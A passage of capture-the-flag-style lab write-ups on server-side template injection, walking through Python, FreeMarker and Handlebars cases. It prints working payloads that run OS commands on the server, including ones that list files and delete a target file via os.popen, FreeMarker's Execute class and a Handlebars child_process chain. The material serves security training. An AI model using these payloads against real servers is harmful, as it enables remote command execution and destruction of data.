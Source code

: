     total 8 -rw-rw-r-- 1 carlos carlos 6816 Mar 12 02:34 morale.txt

Resend the request using this parameter to successfully delete the target file:

    blog-post-author-display=__import__('os').popen('rm+morale.txt').read()

### LAB: Server-side template injection using documentation
Use the `Edit template` function in any product page. Try adding `${a}` to template and click `Preview`. The server is returning us an error indicating the template it is using is `freenmarker` in Java.
Now inject this to the template:

    <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("ls -l") }

Notice the result of the OS command `ls -l` is shown in the preview indicating a successful SSTI. Now inject this to delete the target file:

    <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm morale.txt") }

To understand the payload, read more at [SSTI Portswigger Research](https://portswigger.net/research/server-side-template-injection) (in FreeMarker section).

### LAB: Server-side template injection in an unknown language with a documented exploit
Click on the first product. Notice there is a text indicating the stock status of this product which is getting from this parameter in the URL:

    ?message=Unfortunately%20this%20product%20is%20out%20of%20stock

Try changing it to something arbitrary:

    ?message=${{<%[%'"}}%\

The server is giving us an error indicating that it is using `Handlebars.js` as a template engine. Search online for Handlebars SSTI exploit and found this at [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md#handlebars):

    {{#with "s" as |string|}}
        {{#with "e"}}
            {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').execSync('ls -la');"}}
                {{this.pop}}
                {{#each conslist}}
                {{#with (string.sub.apply 0 codelist)}}
                    {{this}}
                {{/with}}
                {{/each}}
            {{/with}}
            {{/with}}
        {{/with}}
    {{/with}}
